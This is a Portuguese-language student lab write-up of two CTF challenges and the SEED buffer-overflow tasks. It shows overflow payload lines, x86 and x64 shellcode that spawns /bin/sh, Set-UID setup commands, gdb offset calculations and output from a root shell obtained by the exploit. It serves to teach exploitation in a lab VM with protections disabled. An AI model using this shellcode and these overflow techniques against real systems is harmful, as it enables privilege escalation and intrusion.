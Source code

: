 # CTF 5 #

**Desafio 1** 
Neste desafio, para ler o conteúdo do ficheiro **flag.txt**, onde se encontra a flag que devemos submeter, é necessário alterar o ficheiro **exploit-example.py**, que é fornecido pela plataforma. Uma vez que o buffer de leitura tem tamanho 20, mas o scanf lê uma string de 28 caracteres, podemos aproveitar essa vulnerabilidade, iniciando um ataque de buffer overflow. Para isso devemos, no ficheiro de exploit alterar a linha `r.sendline(b"Tentar nao custa")` para `r.sendline(b"a"*20 + b"flag.txt")`. Com esta alteração, quando corrermos o comando `python3 exploit-example.py` para interagir com o servidor, o exploit vai enviar para o servidor uma string com 20 caracteres "a", seguido do nome do ficheiro que queremos ler. Desta forma, vamos provocar um buffer overflow e o conteúdo do ficheiro será escrito no stdout.

**Desafio 2**
Este desafio é semelhante ao anterior. A diferença está na condição `if(*(long*)val == 0xfefc2122)` que foi adicionada, que faz com que só seja possível executar o código que faz a leitura do ficheiro, se o endereço corresponder àquele que é indicado na condição. Sendo assim, temos de alterar a mesma linha do ficheiro de exploit, mas desta vez temos de acrescentar o endereço que é indicado na condição, trocando a sua ordem: `r.sendline(b"a"*20 + b"\x22\x21\xfc\xfe" + b"flag.txt")`.
Desta forma, quando interagirmos com o servidor, enviando esta string, será provocado um buffer overflow e o conteúdo do ficheiro será escrito no stdout.

# Tarefas da Semana #5 #
# Buffer Overflow

**Buffer Overflow** é definido como uma condição na qual um programa tenta escrever dados para além dos limites pré-alocados pelo buffer, que tem um comprimento fixo. Nesta atividade, explorar-se-á de que forma é que esta vulnerabilidade pode ser explorada por um utilizador malicioso para alterar o fluxo do programa, ou até mesmo para executar código por ele escrito.

# Tarefa 1 : Familiarizando-se com Shellcode

Antes de iniciar o ataque, é necessário um Shellcode. Um Shellcode é um pedaço de código que abre uma shell. 

Em C, o código seria este: 
```c
#include<stdio.h>

int main()
{
    char *name[2];

    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```
Contudo, não é possível compilar este código e usar o código binário como Shellcode. A melhor maneira de o fazer é escrevendo o Shellcode em código Assembly, e gerar o código binário a partir desse código.
```c
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
    char code[500];
    strcpy(code, shellcode); // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func(); // Invoke the shellcode from the stack
    return 1;
}
```
O código acima inclui duas cópias do shellcode, uma para 32-bit e uma para 64-bit.

Depois de compilar e correr o programa, o programa invoca uma shell: 

```shell
[11/30/21]seed@VM:~/shellcode$ make
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
[11/30/21]seed@VM:~/shellcode$ ./a32.out 
$                                                                              
[11/30/21]seed@VM:~/shellcode$ ./a64.out 
$                                                                            
[11/30/21]seed@VM:~/shellcode
```


# Tarefa 2 : Compreendendo o Programa Vulnerável
O programa a ser usado contém uma vulnerabilidade buffer-overflow. Tentar-se-á explorar esta vulnerabilidade e ganhar privilégios root.

Depois de compilar o programa com a StackGuard e outras proteçoes da stack desligadas, torna-se o programa num programa do tipo Set-UID com privelégios root, usando os seguintes comandos:
```shell
sudo chown root stack 
sudo chmod 4755 stack 
```
O makefile disponível trata de alterar as permissões e desligar as proteçoes, e, o programa é compilado, escrevendo o comando `make`

# Tarefa 3 : Lançar um Ataque num Programa 32-bit (Nível 1)
Depos de se ter compilado e alterarado as permissões do programa vulnerável, está na altura de pôr em prática o ataque.

Contudo, primeiro é necessário saber a distância de memória entre a posição de começo do buffer e o lugar onde o endereço de retorno é guardado. Para tal, usar-se-á um método de _debugging_(depuração), do qual se obtém a seguinte informação, com a ajuda de _breakpoints_.
```
$ebp = 0xffffca98               -> Valor de ebp 
&buffer = 0xffffca2c            -> Endereço de começo do buffer
```

1. Em cima verifica-se que o frame pointer é `0xffffca98`, e, sendo asssim, o endereço de retorno tem que estar guardado em `ebp + 4` e o primeiro endereço para o qual se pode 'saltar' é `ebp + 8`. 
2. A diferença entre `ebp` e o começo do buffer é dada por: `$ebp - &buffer = 0xffffca98 - 0xffffca2c = 108` e assim a distância entre o endereço de retorno e o começo do buffer é dada por `108+4=112` pois o endereço de retorno se encontra 4 bytes do valor para o qual `ebp`aponta.

Assim, os valores que foram adicionados ao ficheiro [exploit.py](https://git.fe.up.pt/fsi/fsi2122/l04g02/-/blob/main/Week%205/exploit.py) , para além do código que abre um shellcode (copiado da tarefa 1) foram:

- `start = 517 - len(shellcode)`: o que é equivalente a tamanho(payload) - tamanho(shellcode), uma vez que se quer colocar o shellcode o mais para o fim da payload possível.
- `ret = 0xffffca2c + 200` : uma vez que o _gdb_ adiciona alguns dados de ambiente na stack antes de corre o programa depurado, quando o programa corre diretamente sem o uso do _gdb_, a stack não possui esses dados, e o frame pointer será maior do que o obtido através da depuração. Assim, vai-se adicionado ao edp, além dos 4 bytes mencionados em (1), um número arbitrário de bytes até ter sucesso.
- `offset = 112` : Explicado em (2)

Em baixo verifica-se que, de facto, o exploit abriu uma shell do tipo root.

```shell
[12/02/21]seed@VM:~/.../code$ python3 exploit.py 
[12/02/21]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id                                                                 
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm)....
#   
```





